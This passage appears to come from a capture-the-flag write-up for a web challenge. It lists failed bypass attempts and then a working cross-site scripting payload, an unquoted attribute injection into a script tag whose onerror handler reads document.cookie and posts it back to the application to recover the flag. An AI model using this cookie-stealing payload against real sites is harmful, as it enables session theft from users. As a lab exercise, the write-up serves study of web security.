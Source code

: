 2) Unicode fullwidth operator trick (U+FF08, U+FF09, U+FF01)
- Bypasses ASCII filter, but JavaScript does not treat these as operators, so the code doesn’t execute.

3) Inject via `q` (query) to break out with `<` / `>`
- `q` is HTML-escaped (`<%= %>`), so `<` becomes `&lt;`, etc. No tag breakouts.

4) `data:`/external `src` to load a payload
- Blocked by CSP (`script-src 'self'`), so `data:` and non-self origins won’t execute.

5) Newlines/specials in `q`
- Newlines are preserved but still inside the attribute; without `<`/`>`, no clean breakout.

6) Posting JSON payloads
- App doesn’t use `express.json()`. JSON bodies looked like “no response” or weird behavior since the server never parsed them.

---

## Key breakthrough

Unquoted attribute injection via `q` (HTML-escaped but unquoted) lets us add extra attributes using spaces:

```
<script id=x src=/nope.js onerror=...>
```

Script `onerror` is allowed (inline JS permitted by CSP). So we can intentionally load a failing `src` (`/nope.js` will 404), and use the `onerror` handler to execute arbitrary inline JS.

We leverage that to POST the cookie back to the same application (no external requests needed):

```
onerror=fetch('/search',{
  method:'POST',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'q='+encodeURIComponent(document.cookie)+'&_=%5B%5D'
})
```

Why this works:
- `document.cookie` contains the admin flag (non-HttpOnly).
- We POST to our own `/search` endpoint with `q=<cookie>`.
- We set `_=%5B%5D` (i.e., `[]`) so it passes the strict `_` filter on render.
- `/searches` later shows the stored `q` values; we extract `PCC{...}`.

---

## Final payload shape

- Form field `q` (UNQUOTED attribute injection):

```
q = x src=/nope.js onerror=fetch('/search',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'q='+encodeURIComponent(document.cookie)+'&_=%5B%5D'}) x
```

